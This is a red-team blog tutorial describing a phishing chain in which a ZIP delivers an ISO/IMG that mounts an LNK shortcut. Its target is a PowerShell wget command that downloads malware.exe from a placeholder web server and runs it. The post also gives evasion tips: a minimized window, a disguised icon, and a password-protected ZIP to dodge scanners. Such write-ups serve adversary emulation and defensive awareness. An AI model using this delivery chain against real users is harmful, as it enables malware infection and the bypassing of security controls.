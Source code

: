 ```yaml
---
title: Abusing ISO/IMG Files
author: Z0ldyck
date: 2022-08-19 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [REDTEAM]
---
```


السلام عليكم ورحمة الله وبركاته

# introduction

Lately, I have been developing my custom tools and implementing/recreating some of the known techniques used by threat actors. Well, this post is not going to be focused on any specific tool but will showcase one technique that I enjoyed reimplementing and some advice for people who are looking to advance their work specifically for Red Teamers (It could help blue ppl, but I would assume they already do that). I think one of the biggest things that most red teamers (to be specific the ppl in my circle) are missing or not giving some time for is reading reports related to Threat Actors' new techniques. Most of these reports at the first sight might feel that the target audience is mostly Threat Hunters, but in reality, it will help both sides. One side can discover/identify these threats and the other can use them or even advance/change them to something even better, whatever the case is. My point is It doesn't matter what group you are in, reading them will 100% benefit you. I will suggest looking into reports related to Threat Actors from Mandiant/CrowdStrike. There is more, but these are faviourt ones


In this post, I will be going over one of the techniques that I see many threat actors using to compromise victims' machines. This technique is very well known for many blue teamers. You can find below a full map of the execution:

![](../../images/isoimg/1.png)

The attack is straightforward, we will be sending phishing emails that contain or provide a link to download a ZIP file. After decompressing the ZIP file the user would find an IMG/ISO file. A double click from the user will mount a disk containing an LNK file that will download our malicious payload and run it.

I will skip the email and the ZIP file part as these are not the main focus of this post (There is a ton of ways to deliver your files). First, create your malicious payload and host it on a web server, you can use your C2 web server or anything similar. Moving on to creating our LNK file, there is a lot of ways to create one. You can even use powershell/C# to create it, but we will just use the simple method cause why not :)


## LNK FILE

Create a shortcut of any app you have first, then open file properties. Check the image below:

![](../../images/isoimg/2.png)

Here is what you need to consider:

- Target → This is where you will put your command. You can use something like the command below to download and run your malicious payload:
```
powershell wget http://<your_webserver>/malware.exe -O C:\somewhere; malware.exe
```

(Note: Don’t use this command to deliver your payloads, it is not the best way and you will get caught immediately. This is just an example lol)

- Run → Set it to Minimized (Just trust me :p )

- File icon → I think you need to consider that. In the Shortcut section click on “Change Icon” and browse to “C:\Windows\System32\shell32.dll”. You will have a bunch of icons to choose from. I went with the text file icon.

## ISO FILE

This should be enough for the LNK file. Now let’s create the ISO file. I will be using AnyBurn to do this process, but you can use whatever you prefer. You might be wondering why would we go with an ISO/IMG file, the answer is simple users will double click it and a new CD Drive will be attached, and in some cases, it will bypass some security solutions. After creating the ISO you can just save it into an archive and somehow deliver it with some magic to the victim :p

In AnyBurn select “Create image file from files/folders”

![](../../images/isoimg/3.png)

In the new window add your folder/file and click on “Next”

![](../../images/isoimg/4.png)

Next, you will choose where to save your ISO file. By clicking “Create Now” your file will be created and saved in that destination.

![](../../images/isoimg/5.png)

![](../../images/isoimg/6.png)

## DEMO

Now all you need to do is save it in a ZIP file because there is a tone of solutions that started triggering ISO/IMG files. I would also suggest making a ZIP file protected with a password so these solutions wouldn’t be able to scan them (If that’s wrong correct me please!). Here is a demo of the whole process:

![](../../images/isoimg/dev.mp4)

I hope you enjoyed reading this post, I will be sharing more stuff (I don’t know why I am doing that at the end of my break lol)
